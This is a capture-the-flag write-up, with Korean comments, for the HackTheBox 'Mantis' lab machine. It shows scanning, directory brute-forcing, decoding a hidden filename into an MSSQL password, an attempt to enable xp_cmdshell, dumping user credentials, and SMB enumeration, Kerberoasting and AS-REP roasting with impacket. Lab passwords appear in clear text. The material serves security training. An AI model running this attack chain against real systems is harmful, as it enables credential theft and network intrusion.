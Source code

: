```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# file name decrypt : 6d2424716c5f53405f504073735730726421
echo -n "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d

# hash find / https://md5hashing.net/hash_type_checker : m$$ql_S@_P@ssW0rd!
echo -n "6d2424716c5f53405f504073735730726421" | xxd -r -p
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/465c02373b516278293589f23352beb9_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/bd6f445def888058e877f5ca9abbd8c3_MD5.jpeg)
### MSSQL 
```bash
# mssql 접근
impacket-mssqlclient admin@10.129.110.72

# rce permission error로 불가
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# DB 조사
SELECT name FROM sys.databases

# 테이블 조사
use database
SELECT * FROM INFORMATION_SCHEMA.TABLES

# 컬럼 조사
SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blog_Orchard_Users_UserPartRecord'

# 데이터 얻기 / James : james@htb.local : J@m3s_P@ssW0rd!
SELECT UserName, Email, Password FROM blog_Orchard_Users_UserPartRecord
```

![](/assets/images/posts/2025-03-22-Mantis/f70eda358256e33f8bc51f87a38dd1ee_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/182a7b0de707875646da84310c2f5f70_MD5.jpeg)
### SMB
```bash
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --shares
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --users
```
![](/assets/images/posts/2025-03-22-Mantis/727355dbf012cad50ded1b4832834d16_MD5.jpeg)

### RPC
```bash
rpcclient -U htb.local/james 10.129.110.72
```


### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http

sudo impacket-GetUserSPNs -request -dc-ip 10.129.110.72 htb.local/james
impacket-GetNPUsers -dc-ip 10.129.110.72 -request -outputfile hashes.asreproast htb.local/james

mount -t cifs -o rw,username=james,password= '//10.129.110.72/<폴더명>' /mnt
```
